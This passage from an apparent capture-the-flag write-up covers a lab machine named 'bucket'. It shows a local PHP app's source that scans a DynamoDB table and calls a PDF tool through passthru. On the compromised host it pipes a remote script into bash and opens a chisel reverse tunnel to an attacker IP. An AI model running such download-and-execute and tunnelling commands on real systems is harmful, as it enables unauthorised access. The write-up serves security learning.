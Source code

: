Interesting that they have a local server running on port `8000`!  `curl`ing it displays a lot of HTML.  A brief look through this shows that it seems to use code similar to the `index.php` code in `/var/www/html` (where we started).  I go into `/var/www/` and see that there is another directory called `bucket-application`.  I display the first little bit of `index.php` from this directory:
```php
roy@bucket:/var/www/bucket-app$ head -n 30 index.php
head -n 30 index.php
<?php
require 'vendor/autoload.php';
use Aws\DynamoDb\DynamoDbClient;
if($_SERVER["REQUEST_METHOD"]==="POST") {
	if($_POST["action"]==="get_alerts") {
		date_default_timezone_set('America/New_York');
		$client = new DynamoDbClient([
			'profile' => 'default',
			'region'  => 'us-east-1',
			'version' => 'latest',
			'endpoint' => 'http://localhost:4566'
		]);

		$iterator = $client->getIterator('Scan', array(
			'TableName' => 'alerts',
			'FilterExpression' => "title = :title",
			'ExpressionAttributeValues' => array(":title"=>array("S"=>"Ransomware")),
		));

		foreach ($iterator as $item) {
			$name=rand(1,10000).'.html';
			file_put_contents('files/'.$name,$item["data"]);
		}
		passthru("java -Xmx512m -Djava.awt.headless=true -cp pd4ml_demo.jar Pd4Cmd file:///var/www/bucket-app/files/$name 800 A4 -out files/result.pdf");
	}
}
else
{
?>
```

This is interesting.  The PHP function at the top seems to look for a `POST` request, create a new DynamoDB instance, scan for a table called `alerts` with a search query `Ransomware`, and uses a tool called `Pd4Cmd` (which I looked up, and converts to PDF).




Let's try to portforward it to our machine to take a look.  When looking up how to do this, I found a [fast TCP/UDP tunnel over HTTP tool](https://github.com/jpillora/chisel).  On our machine, we can run
```bash
chisel server -p 10000 --reverse
```

You must do this while connected to the machine from the netcat listener.  And on the host machine now run
```bash
cd /tmp
curl https://i.jpillora.com/chisel! | bash
./chisel client 10.10.14.239 R:8000:127.0.0.1:8000
```